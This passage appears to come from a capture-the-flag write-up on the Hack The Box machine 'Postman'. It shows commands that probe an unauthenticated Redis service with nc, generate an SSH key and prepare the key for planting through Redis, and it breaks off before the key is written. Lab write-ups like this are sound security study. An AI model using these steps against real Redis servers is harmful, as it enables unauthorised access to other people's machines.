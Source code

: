 Ooo 2 more ports appeared! Lets check out the `redis` service on port `6379`. I came across this article on how to get myself a remote shell to the box.

The first step was to check if authentication is required. Using `nc`, I attempted to send a `echo` command and it was executed successfully.

{% highlight bash %}
nc -v postman.htb 6379
postman.htb [10.10.10.160] 6379 (?) open
echo "Authentication required?"
$24
Authentication required?
quit
+OK
{% endhighlight %}

As you can see, the `redis` service echoed back our text. Remember that there was a `ssh` service running on the box? Lets generate a new `ssh` key and attempt to write it onto the machine.

{% highlight bash %}
ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:TEPWxxvFEd9AoEM+xQGEYHHyVHuUeSugqKuFihcLCf4 root@kali
The key's randomart image is:
+---[RSA 3072]----+
|      =o===+=O*o |
|     . B.oo=B oo.|
|       .+.*o.+ .o|
|.     .o.. +o .  |
|o.   .  S    .   |
|o....            |
| .oo..           |
|..oE.            |
|o...             |
+----[SHA256]-----+
{% endhighlight %}

We then have to prepare the public key to be sent to the `redis` server.
{% highlight bash %}
$ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
{% endhighlight %}
